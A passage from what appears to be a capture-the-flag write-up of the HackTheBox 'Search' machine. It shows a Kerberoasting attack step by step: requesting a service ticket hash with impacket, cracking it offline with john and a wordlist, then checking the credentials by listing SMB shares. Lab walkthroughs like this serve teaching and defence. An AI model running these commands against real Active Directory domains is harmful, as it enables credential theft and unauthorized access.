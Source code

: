 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Search/images/Pasted%20image%2020230727161420.png)

> The goal of **Kerberoasting** is to harvest **TGS tickets for services that run on behalf of user accounts** in the AD, not computer accounts. Thus, **part** of these TGS **tickets are encrypted** with **keys** derived from user passwords. As a consequence, their credentials could be **cracked offline**. You can know that a **user account** is being used as a **service** because the property **"ServicePrincipalName"** is **not null**.
>  
> Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required. (From [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast))

That being said, domain user `hope.sharp` can request a Kerberos ticket for an SPN (Service Principal Name), which is the `web_svc` **service**. (`web_svc` **user account** is being used as a **service**.)

**To request a Kerberos ticket for `web_svc` service, we can use [impacket](https://github.com/fortra/impacket)'s `GetUserSPNs.py`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:24(HKT)]
└> impacket-GetUserSPNs -request -dc-ip $RHOSTS search.htb/hope.sharp -outputfile web_svc.kerberoast
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 20:59:11.329031  <never>               
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:49(HKT)]
└> file web_svc.kerberoast                                  
web_svc.kerberoast: ASCII text, with very long lines (2175)
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:18:50(HKT)]
└> cat web_svc.kerberoast 
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$c3cc[...]
```

**Then, we can crack the hash offline via `john`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:19:49(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs web_svc.kerberoast 
[...]
{Redacted} (?)     
[...]
```

Nice! We cracked it!

**We can try to verify that credentials:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:28:14(HKT)]
└> smbclient -L //search.htb/ -U "web_svc"               
Password for [WORKGROUP\web_svc]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	helpdesk        Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	RedirectedFolders$ Disk      
	SYSVOL          Disk      Logon server share 
```